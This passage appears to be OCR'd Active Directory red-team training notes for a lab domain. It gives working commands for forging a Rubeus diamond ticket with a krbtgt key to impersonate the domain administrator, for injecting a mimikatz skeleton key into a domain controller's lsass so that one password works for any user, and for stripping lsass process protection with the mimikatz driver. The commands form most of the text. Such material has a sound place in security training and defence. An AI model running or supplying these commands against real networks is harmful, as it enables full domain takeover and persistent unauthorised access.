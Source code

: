 
We would still need krbtgt AES keys. Use the following Rubeus command to
create a diamond ticket (note that RC4 or AES keys of the user can be used
too):

```
Rubeus.exe diamond
/krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
/user:studentuserx /password:studentuserxpassword /enctype:aes
/ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local
/ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show
/ptt
```

We could also use /tgtdeleg option in place of credentials in case we have
access as a domain user:

```
Rubeus.exe diamond
/krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
/tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.techcorp.local
/dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512
/createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

#### Skeleton Key


• Skeleton key is a persistence technique where it is possible to patch a
Domain Controller (lsass process) so that it allows access as any user with
a single password.
• The attack was discovered by Dell Secureworks used in a malware named
the Skeleton Key malware.
• All the publicly known methods are NOT persistent across reboots.
• Yet again, mimikatz to the rescue.


Use the below command to inject a skeleton key (password would be
mimikatz) on a Domain Controller of choice. DA privileges required

```
SafetyKatz.exe '"privilege::debug" "misc::skeleton"' -
ComputerName us-dc
```

Now, it is possible to access any machine with a valid username and
password as "mimikatz"

```
Enter-PSSession –Computername us-dc –credential
us\Administrator
```


You can access other machines as well as long as they authenticate with
the DC which has been patched and the DC is not rebooted.


• In case lsass is running as a protected process, we can still use Skeleton
Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target
DC:
~~~
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
~~~

